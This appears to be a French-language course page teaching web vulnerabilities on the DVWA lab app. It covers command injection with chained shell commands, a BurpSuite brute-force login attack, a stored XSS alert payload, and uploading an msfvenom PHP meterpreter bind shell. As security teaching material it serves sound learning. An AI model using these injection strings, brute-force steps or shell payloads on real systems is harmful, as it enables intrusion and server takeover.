 # Vulnérabilités Web

L'ensemble des démonstrations de ce cours utilise une application Web nommée _Damn Vulnerable Web Application_ ou DVWA. C'est une application avec des vulnérabilités pour tester notre habileté à les exploiter.

## Exécution de commandes

Certaines applications Web utilisent les commandes du système d'exploitation pour offrir des services aux utilisateurs. Un pirate peut prendre avantage de ces applications pour exécuter des commandes non prévues.

Dans DVWA, aller dans la section _Command Execution_.

![19-command-execution](../images/2020/07/19-command-execution.png)

L'application permet de faire un ping.

si on entre `192.168.40.7` :

![19-command-execution-ping](../images/2020/07/19-command-execution-ping.png)

Sous Linux, il est possible d'exécuter plusieurs commandes sur la même ligne avec l'opérateur & ou |.

Essayons de voir le contenu du répertoire courant avec `192.168.40.7 & ls -la`

![19-command-execution-ls-la-ampersand](../images/2020/07/19-command-execution-ls-la-ampersand.png)

Essayons de voir le contenu du répertoire courant avec `192.168.40.7 | ls -la`

![19-command-execution-ls-la-pipe](../images/2020/07/19-command-execution-ls-la-pipe.png)

Nous nous trouvons dans quel répertoire? `192.168.40.7 | pwd`

![19-command-execution-pwd](../images/2020/07/19-command-execution-pwd.png)

Quelle version de Linux roule? `192.168.40.7 | uname -a`

Créons une nouvelle page Web : `192.168.40.7 | echo "<?php echo 'Salut la gang' ?>" > salut.php`

Essayons de voir le contenu du répertoire courant après la création du fichier avec `192.168.40.7 | ls -la`

![19-command-execution-ls-la-apres-salut-php](../images/2020/07/19-command-execution-ls-la-apres-salut-php.png)

Exécutons la nouvelle page :

![19-command-execution-salut-php](../images/2020/07/19-command-execution-salut-php.png)

### Source de la vulnérabilité

![19-command-execution-source](../images/2020/07/19-command-execution-source.png)

## Attaque avec une force brute

Certaines application Web sont susceptibles à une attaque par force brute. Pour démontrer comment faire une telle attaque, nous allons utiliser BurpSuite.

Pour installer BurpSuite :

`sudo apt install burpsuite`

1 - Créer un projet temporaire :

![20-burpsuite-projet-temporaire](../images/2020/07/20-burpsuite-projet-temporaire.png)

2 - Démarrer Burp :

![20-burpsuite-demarrer-burp](../images/2020/07/20-burpsuite-demarrer-burp.png)

3 - Dans firefox, configurer le proxy :

![20-firefox-proxy](../images/2020/07/20-firefox-proxy.png)

4 - Dans firefox, accéder à la page de DVWA :

![19-firefox-brute-force](../images/2020/07/19-firefox-brute-force.png)

5 - Mettre intercept à on dans Burpsuite :

![20-burpsuite-intercept-on](../images/2020/07/20-burpsuite-intercept-on.png)

6 - Dans firefox, entrer 'user1' et 'pass1' et cliquer sur **login** :

![19-firefox-login-user1-pass1](../images/2020/07/19-firefox-login-user1-pass1.png)

7 - Dans BurpSuite, sélectionner l'action **send to intruder** :

![19-burpsuite-send-to-intruder](../images/2020/07/19-burpsuite-send-to-intruder.png)

8 - Sélectionner l'onglet **intruder**, le sous-onglet **position** et changer le type d'attaque pour **cluster bomb** :

![19-burpsuite-payload-position-attack-type](../images/2020/07/19-burpsuite-payload-position-attack-type.png)

9 - Sélectionner **user1** et **pass1** :

![19-burpsuite-positions-add](../images/2020/07/19-burpsuite-positions-add.png)

10 - Dans l'onglet payloads, ajouter les codes utilisateurs dans le payload 1 et les mots de passe dans le payload 2 :

![19-burpsuite-payload-1](../images/2020/07/19-burpsuite-payload-1.png)

![19-burpsuite-payload-2](../images/2020/07/19-burpsuite-payload-2.png)

11 - Dans l'onglet options, ajouter un Grep - Match pour déterminer si l'attaque a réussi ou non :

![19-burpsuite-option-grep-match](../images/2020/07/19-burpsuite-option-grep-match.png)

12 - Lancer l'attaque :

![19-burpsuite-start-attack](../images/2020/07/19-burpsuite-start-attack.png)

13 - Résultats de l'attaque, nous avons trouvé 1 mot de passe valide :

![19-burpsuite-attack-results](../images/2020/07/19-burpsuite-attack-results.png)

## Cross Site Scripting

Les sites Web qui ont du contenu créé par les utilisateurs (par exemple un forum) peuvent permettre l'exécution de code Javascript injecté dans le contenu. De cette manière, un utilisateur malicieux peut exécuter du code sur le poste d'une victime lors de sa visite du site Web.

1 - Aller sur la page de XSS (stored) dans DVWA :

![19-XSS-initial](../images/2020/07/19-xss-initial.png)

2 - Écrire le payload dans le message :

`<script>alert("Bonjour la planète")</script>`

![19-XSS-script-payload-alert](../images/2020/07/19-xss-script-payload-alert.png)

3 - Résultats :

![19-XSS-alert-results](../images/2020/07/19-xss-alert-results.png)

## Upload

Si vous pouvez téléverser un fichier sur le serveur, vous pouvez prendre contrôle du serveur.

1 - Créer un fichier avec un payload à l'aide de MSFVenom :

`msfvenom -p php/meterpreter/bind_tcp lport=4444 -o mp.php`

![19-msfvenom-php-meterpreter](../images/2020/07/19-msfvenom-php-meterpreter.png)

2 - Aller sur la page upload de DVWA et téléverser mp.php :

![19-file-upload-mp-php](../images/2020/07/19-file-upload-mp-php.png)

3 - Exécuter le fichier mp.php :

![19-execute-mp-php](../images/2020/07/19-execute-mp-php.png)

4 - Lancer Metasploit avec le multi handler et le bon payload :

![19-msfconsole-multi-handler-bind-tcp-meterpreter](../images/2020/07/19-msfconsole-multi-handler-bind-tcp-meterpreter.png)

!!! important  
 Prenez quelques minutes pour faire votre [cartographie](../outils/cartographie.md) de la leçon d'aujourd'hui!

## Testez vos connaissances

[Petit quiz sur les vulnérabilités Web](https://forms.office.com/r/Hymgvx9Avb)
